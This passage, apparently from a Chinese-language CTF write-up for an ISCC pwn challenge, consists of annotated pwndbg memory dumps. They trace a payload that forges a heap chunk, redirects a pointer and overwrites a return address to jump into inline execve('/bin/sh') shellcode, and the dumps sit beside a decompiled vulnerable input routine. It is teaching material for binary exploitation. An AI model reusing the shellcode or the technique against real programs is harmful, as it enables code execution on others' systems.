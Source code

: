 ```c
0x7fffffffde08: 0xca1811b744304534  0x0000000000000000
0x7fffffffde18: 0x0000000000000000  0x0000000000000000
Pwndbg> 
```



```c
#写入payload所执行的内容p64(0)*3+p64(reg_RBP - 0xc0 + 1)，结果如下：
#&rbp-90==0x7fffffffdd10
#&rbp-0xc0+1==0x7fffffffdce1
pwndbg>  x/50gx 0x7fffffffdc98
0x7fffffffdc98: 0x0000000000400824  0x000000000000000e
0x7fffffffdca8: 0x0000000000000000  0x00007fffffffdcd0
0x7fffffffdcb8: 0x00000000004009e0  0x0000000000000000
0x7fffffffdcc8: 0x00007ffff7ffe168  0x00007fffffffdd20
'''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''
#payload更改的内容：
0x7fffffffdcd8: 0x0000000000400a8c  0x69622fbb48f63100 #shellcode_start
    								#buf从这里开始
0x7fffffffdce8: 0x54535668732f2f6e	0x050fd231583b6a5f #shellcode_end
0x7fffffffdcf8: 0x0000000000000000  0x0000000000000000 
0x7fffffffdd08: 0x0000000000000041  0x0000000000000000
    								#输入的id内容
									#此内容所在的地址为：0x7fffffffdd10
    			#ptr现在被修改为指向0x7fffffffdd10
    			#malloc_chunk地址为：0x7fffffffdd00
0x7fffffffdd18: 0x0000000000000000  0x0000000000000000
'''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''    
0x7fffffffdd28: 0x00007fffffffdce1  0x00007ffff7dd18e0
    			#现在已被覆盖为shellcode地址
#0x7fffffffdd28: 0x0000000000400b34  0x00007ffff7dd18e0（原内容）
#.text:0000000000400B2A                 mov     eax, 0
#.text:0000000000400B2F                 call    sub_400A29
#.text:0000000000400B34                 leave #被覆盖为shellcode
#.text:0000000000400B35                 retn
    
#修改的是这个函数的leave    
#int sub_400A8E()
#{
#  signed __int64 i; // [rsp+10h] [rbp-40h]
#  char v2[48]; // [rsp+20h] [rbp-30h]
#
#  puts("who are u?");
#  for ( i = 0LL; i <= 47; ++i )
#  {
#    read(0, &v2[i], 1uLL);
#    if ( v2[i] == 10 )
#   {
#     v2[i] = 0;
#     break;
#   }
# }
# printf("%s, welcome to ISCC~ \n", v2);
# puts("give me your id ~~?");
# sub_4007DF();
# sub_400A29();
#}
0x7fffffffdd38: 0x00007ffff7fdc700  0x0000000000000003
0x7fffffffdd48: 0x00000000000001c8  0x6161616161616161 
    			#输入的id大小	     #name从这里开始
0x7fffffffdd58: 0x6161616161616161  0x6161616161616161
0x7fffffffdd68: 0x6161616161616161  0x6161616161616161
0x7fffffffdd78: 0x6161616161616161  0x00007fffffffdda0 
```